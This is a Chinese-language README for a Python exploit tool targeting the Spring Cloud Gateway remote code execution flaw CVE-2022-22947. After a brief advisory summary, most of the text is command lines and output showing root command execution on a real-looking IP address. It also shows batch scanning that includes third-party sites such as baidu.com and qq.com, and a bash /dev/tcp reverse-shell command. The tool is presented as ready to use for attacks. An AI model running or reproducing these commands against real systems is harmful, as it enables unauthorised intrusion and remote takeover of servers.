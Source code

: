 ## 一、Spring Cloud Gateway远程代码执行漏洞

   危害等级：高危

   POC/EXP情况：已公开

   CNVD编号：CNNVD-2022-16402

​	CVE编号：CVE-2022-22947

## 二、影响范围：

- - VMWare Spring Cloud GateWay 3.1.0
  - VMWare Spring Cloud GateWay >=3.0.0，<=3.0.6
  - VMWare Spring Cloud GateWay <3.0.0

## 三、漏洞描述

  Spring Cloud Gateway存在远程代码执行漏洞，该漏洞是发生在Spring Cloud Gateway应用程序的Actuator端点，其在启用、公开和不安全的情况下容易受到代码注入的攻击。攻击者可利用该漏洞通过恶意创建允许在远程主机上执行任意远程请求。

## 四、CVE-2022-22947 EXP使用

### （一）脚本特点

1、支持单个目标验证

2、支持批量漏洞验证

3、支持反弹shell

### （二）脚本参数

```
-h   查看帮助信息
-u   指定url目标
-c   指定需要执行的命令，默认执行id
-f   指定目标url文件
```

### （三）脚本使用

**1.单个目标验证**

方式一：

```shell
E:\pocs>python cve-2022-22947.py

    验证单个目标：
            1、python cve-2022-22947.py  进入交互模式后，根据提示输入目标url和需要执行的命令，注意命令的正确性
            2、python cve-2022-22947.py  -u http://example.com -c whoami
        验证多个目标
            1、python cve-2022-22947.py -f url.txt ，将需要验证的目标全部放在url目录下
        反弹shell
            1、python cve-2022-22947.py  -u http://example.com -c "bash -i >& /dev/tcp/ip/port 0>&1"
            2、进入交互模式，输入目标和反弹shell的命令

请输入一个目标url地址：http://123.58.236.76:8484
请输入想要执行的命令，默认执行id：whoami
[+]目标：http://123.58.236.76:8484 ,成功获取回显命令：['root\\n']
```

方式二：

```shell
E:\learn\python\pocs\pocs>python cve-2022-22947.py -u http://123.58.236.76:8484 -c whoami

    验证单个目标：
            1、python cve-2022-22947.py  进入交互模式后，根据提示输入目标url和需要执行的命令，注意命令的正确性
            2、python cve-2022-22947.py  -u http://example.com -c whoami
        验证多个目标
            1、python cve-2022-22947.py -f url.txt ，将需要验证的目标全部放在url目录下
        反弹shell
            1、python cve-2022-22947.py  -u http://example.com -c "bash -i >& /dev/tcp/ip/port 0>&1"
            2、进入交互模式，输入目标和反弹shell的命令

[+]目标：http://123.58.236.76:8484 ,成功获取回显命令：['root\\n']
```

**2、批量验证**

```shell
E:\learn\python\pocs\pocs>python cve-2022-22947.py -f url.txt

    验证单个目标：
            1、python cve-2022-22947.py  进入交互模式后，根据提示输入目标url和需要执行的命令，注意命令的正确性
            2、python cve-2022-22947.py  -u http://example.com -c whoami
        验证多个目标
            1、python cve-2022-22947.py -f url.txt ，将需要验证的目标全部放在url目录下
        反弹shell
            1、python cve-2022-22947.py  -u http://example.com -c "bash -i >& /dev/tcp/ip/port 0>&1"
            2、进入交互模式，输入目标和反弹shell的命令

[+]目标：http://123.58.236.76:8484 ,成功获取回显命令：['uid=0(root']
[+]目标：http://123.58.236.76:8484 ,成功获取回显命令：['uid=0(root']
[+]目标：http://123.58.236.76:8484 ,成功获取回显命令：['uid=0(root']
[-]目标：http://www.baidu.com,漏洞验证失败，请手动验证!
[-]目标：http://www.qq.com,漏洞验证失败，请手动验证!
[+]目标：http://123.58.236.76:8484 ,成功获取回显命令：['uid=0(root']
```

**3.反弹shell**

```shell
python cve-2022-22947.py -u http://123.58.236.76:8484 -c "bash -i >& /dev/tcp/xxx.xxx.xxx/65534 0>&1"
```

![image-20220519233354807](Readme.assets\image-20220519233354807.png)

![image-20220519233429912](Readme.assets\image-20220519233429912.png)
